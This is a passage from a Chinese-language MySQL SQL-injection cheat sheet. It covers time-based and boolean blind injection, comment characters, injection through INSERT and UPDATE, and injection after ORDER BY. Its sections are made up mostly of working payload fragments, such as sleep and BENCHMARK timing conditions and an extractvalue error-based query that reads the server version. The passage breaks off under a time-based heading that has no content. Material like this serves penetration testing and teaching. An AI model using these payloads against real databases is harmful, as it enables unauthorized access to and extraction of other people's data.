 这种注入一般出现在登录处，形成bool条件。这里只获取password的值，也可以跟多个UNION查询其他的数据，此方法优点在于不使用括号等号等字符。利用order by姿势很多，自由发挥了。

## 1.5 延时盲注

相对于bool盲注，就是把返回值0和1改为是否执行延时，**能用其他方法就不使用延时**。 
一般格式`if((bool),sleep(3),0)`和`or (case when (bool) then sleep(3) else 0 end)`

两个函数： 
`BENCHMARK(100000,MD5(1)) or sleep(5)`

BENCHMARK()用于测试函数的性能，参数一为次数，二为要执行的表达式。可以让函数执行若干次，返回结果比平时要长，通过时间长短的变化，判断语句是否执行成功。这是一种边信道攻击，在运行过程中占用大量的cpu资源。推荐使用sleep()

## 1.6 MySQL注释符：

```sql
1. -- -
2. /* .... */
3. #
4. `
5. ;%00 
```

## 1.7 Insert&Update注入

insert和update一般使用报错注入
![img](https://ws4.sinaimg.cn/large/006tNc79ly1fikf64tp0nj317u056abk.jpg)

如果没有错误回显，insert可以使用延时注入：
![img](https://ws2.sinaimg.cn/large/006tNc79ly1fikf7rxitdj30s204674p.jpg)

update可以使用bool盲注和延时盲注。

## 1.8 order by后的注入

### 1.8.1 报错注入

```
1 and extractvalue(1, concat(0x7e, (select @@version),0x7e))
```

![img](https://ws1.sinaimg.cn/large/006tNc79ly1fikfxakrp2j312803et9e.jpg)

### 1.8.2 bool盲注

```
order by IF((bool),1,(select 1 union select 2))
```

![img](https://ws2.sinaimg.cn/large/006tNc79ly1fikg0f51wij30yi0bkjsp.jpg)

### 1.8.3 延时盲注
